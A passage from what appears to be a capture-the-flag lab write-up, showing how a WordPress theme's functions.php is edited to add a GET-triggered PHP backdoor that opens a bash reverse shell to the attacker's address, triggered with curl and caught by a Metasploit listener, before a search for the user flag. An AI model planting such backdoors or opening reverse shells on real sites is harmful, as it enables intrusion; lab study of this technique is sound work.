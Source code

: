 - Edit `functions.php` of the active theme (or create a small template file) and append a reverse shell payload
`// add to bottom of functions.php (lab only)`
`if (isset($_GET['pwn'])) {`
  `system("bash -c 'bash -i >& /dev/tcp/10.23.125.244/4444 0>&1'");`
`}`
- Save, trigger by visiting `curl -v -L 'http://10.10.56.148/blog/?pwn=1'`
- because blog dir executes the theme, so the command we just inserted will work
- but first, set up listener, this time i will use msfconsole multi handler
- Payload used : **cmd/unix/reverse_bash**

![Pasted image 20251008162758.png](thm_pics/Pasted%20image%2020251008162758.png)

## finding user.txt
- now, lets try to find user.txt flag first
- command : `find / -name "user.txt"`

![Pasted image 20251008162955.png](thm_pics/Pasted%20image%2020251008162955.png)

![Pasted image 20251008163118.png](thm_pics/Pasted%20image%2020251008163118.png)

- i dont think this is it

![Pasted image 20251008163142.png](thm_pics/Pasted%20image%2020251008163142.png)
